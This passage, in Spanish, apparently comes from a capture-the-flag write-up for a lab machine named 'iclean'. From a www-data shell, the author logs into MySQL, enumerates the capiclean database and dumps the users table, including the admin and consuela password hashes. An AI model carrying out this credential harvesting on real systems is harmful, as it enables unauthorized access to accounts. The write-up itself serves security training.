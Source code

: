 Probé estas credenciales con el usuario de la máquina (consuela), pero no funcionaron. Entonces, inicié sesión en MySQL y, al enumerar la base de datos, identifiqué el hash de la contraseña del usuario.

```bash
www-data@iclean:/opt/app$ mysql -u iclean -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 200
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> 
```
